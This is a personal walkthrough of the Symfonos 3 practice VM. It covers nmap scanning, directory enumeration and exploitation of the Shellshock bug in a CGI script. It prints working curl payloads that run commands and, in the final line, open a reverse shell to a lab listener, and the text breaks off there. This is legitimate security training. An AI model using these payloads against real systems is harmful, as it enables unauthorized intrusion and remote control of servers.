



# Symfonos 3 Walkthrough 
## (Personal write-up, not copy with explanation)

This write-up demonstrates how to approach and exploit the **Symfonos 3** vulnerable machine using Kali Linux tools.  
The process follows a standard penetration testing methodology: reconnaissance, enumeration, exploitation, and privilege escalation.  

---

## Section 1: Reconnaissance (Information Gathering)

Once the Symfonos 3 VM is running, note the IP address it displays.  
This simulates the victim machine’s IP address in a real-world scenario.  

### Full Port Scan
Use **nmap** to scan all ports and detect services:  

```bash
nmap -sS -A -O -p- <target-ip>
```
With this, we can stealth scan SYN, collect information such as service + version, scan all port.
Options:
  -  -sS: half-open scan with SYN (Client to server) -> SYN-ACK (Server to client) -> RST (Client to Server) and close connection. So it doesn't have a real connection like a full hand-shake and OS won't log this connection.

  -   -A: include 3 options such as -sV, -O, --script=default, --traceroute
  -  -sV: output information of service, version
  -   -O: OS dection
  - -p-: scan all port (65535 ports)
    


## Section 2: Enumeration Results

From the **nmap** scan, we discovered the following open services:

- **Port 80 (HTTP)** → Apache httpd 2.4.25  
- **Port 21 (FTP)** → Version 1.3.5b  

### FTP Enumeration
- Tried searching for exploits related to **FTP 1.3.5b**. Found a possible **Remote Command Execution** exploit:  
  [Exploit-DB 49908](https://www.exploit-db.com/exploits/49908)  
- Attempted to log in using the **anonymous** account.  
- Login failed, and it seems `mod_copy` is required but not enabled or accessible.  
- At this stage, FTP exploitation was unsuccessful.  

### Web Enumeration
Using tools such as **Nikto**, **Gobuster**, and **Dirb**, we discovered the following directories on the web server:


- `/index.html` → Default index page
- `/server-status` → Apache server status page (restricted)  
- `/cgi-bin/` → Common directory for scripts  
- `/gate/` → A potential custom or sensitive directory worth deeper investigation  

Next steps will involve analyzing the content of `/gate/` and exploring possible vulnerabilities in `/cgi-bin/`.  

Take a preview to `/gate/` with no useful information.


### CGI-BIN Enumeration

The web server hosts an active **/cgi-bin/** directory.  
Older servers running **bash** with CGI are often vulnerable to the well-known **Shellshock** exploit.  
- Shellshock information: [Shellshock attack](https://www.exploit-db.com/docs/english/48112-the-shellshock-attack-%5Bpaper%5D.pdf?ref=benheater.com)

- Exploit reference: [Exploit-DB 34895](https://www.exploit-db.com/exploits/34895)  

Next step: Perform a directory scan specifically on `/cgi-bin/` to identify any accessible CGI scripts that may be exploitable.  

Example scan:
```bash
gobuster dir -u http://192.168.189.139/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


The scan revealed the endpoint:
`/cgi-bin/underworld`. When accessed in the browser, it displays information such as system time and logged-in users:


This script will be executed by **Bash** through the `/cgi-bin/` directory.  
The response includes a dynamic timestamp, which indicates command execution.  
By testing with `curl`, we can verify whether the target is vulnerable to **HTTP Shellshock (CVE-2014-6271)**.




It returned **VUL** (via curl: `echo VUL`). This confirms the server is vulnerable to **HTTP Shellshock**.  
This CVE can be exploited using a crafted payload script. The `/cgi-bin/` directory invokes Bash, which executes the payload (`echo VUL`).

[Full description CVE 2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)

Try another test using nmap:
```bash
nmap -p80,443 --script http-shellshock --script args uri=/cgi-bin/underworld 192.168.223.129
```


Finally, result showed that the server have a vulnerable is `http-shellshock` through `port 80`

### Note: HTTP-Shellshock Explanation.

Example payload:
```bash
() { :;}; echo; echo VUL
```

What is it? This is a "nothing to do" function with bash.

`()` declares a Bash function.

`{ :; }` empty function body:

`:` built-in command meaning "do nothing".

`:;` executes : and ends the command.

`};` ends the function definition.

Due to Shellshock (CVE-2014-6271), bash does not stop at the function.
Instead, it executes any commands that follow `};`.

`echo;` prints an empty line.

Purpose: avoid syntax issues on some Bash versions and separate exploit output from the program’s original output.

`echo VUL` prints VUL as proof the payload was executed.

### Let's continue with write-up

Try another test case get id from bash

``` bash
curl -A "() { :;};echo ;/bin/bash -c 'id'" http://192.168.223.129/cgi-bin/underworld
```



This command returned `id` from that server.
Now we will exploit the CVE 2014-6271 through `netcat`

```bash
nc -nvlp 4444
```

Listening from port 4444

Give command to contact with our port 4444 through CVE 2014-6271

```bash
curl -A "() { :;};echo ;/bin/bash -c 'bash -i >& /dev/tcp/192.168.223.128/4444 0>&1'" http://192.168.223.129/cgi-bin/underworld
```